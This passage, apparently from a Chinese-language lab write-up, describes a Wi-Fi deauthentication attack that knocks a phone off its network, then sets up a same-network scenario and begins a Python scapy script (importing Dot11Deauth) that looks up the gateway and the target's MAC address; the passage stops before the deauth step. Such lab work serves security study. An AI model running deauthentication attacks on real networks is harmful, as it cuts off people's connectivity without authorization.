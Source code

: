 可见当启动攻击后，移动端连接的网络就断开了，当攻击结束，又会连接回去


#### （扩展）场景⼆：攻击者与受害者均接⼊同⼀⽆线⽹络
将电脑设备和一个移动设备通过无线网络连接到一个无线网络中：
经过查看，其中的移动端设备的 IP 为：**192.168.25.136**

经过测试发现，如果虚拟机使用的是 nat 网卡，就无法通过 arp 找到目标设别的 mac 地址，于是切换虚拟机网卡为桥接网卡，再次测试发现可以获取到 mac 地址

![](./img/调到桥接网卡后arp验证.png)

验证连通性，发现可以 ping 通,证明在一个网段里面

![](./img/验证同一网络连通性.png)


编写的攻击代码：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from scapy.all import RadioTap, Dot11, Dot11Deauth, sendp, ARP, Ether, srp, conf

def getting_ip_of_access_point():
    # 返回默认路由中的网关IP
    return conf.route.route("0.0.0.0")[2]

def get_mac_address(ip):

    # 构造ARP请求包，目标为指定IP
    arp_request = ARP(pdst=ip)
    # 构造以太网广播帧
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    # 发送ARP请求并等待响应
    answered_list = srp(arp_request_broadcast, timeout=2, verbose=False)[0]
    # 如果有响应，返回第一个响应的MAC地址，否则返回None
    if answered_list:
```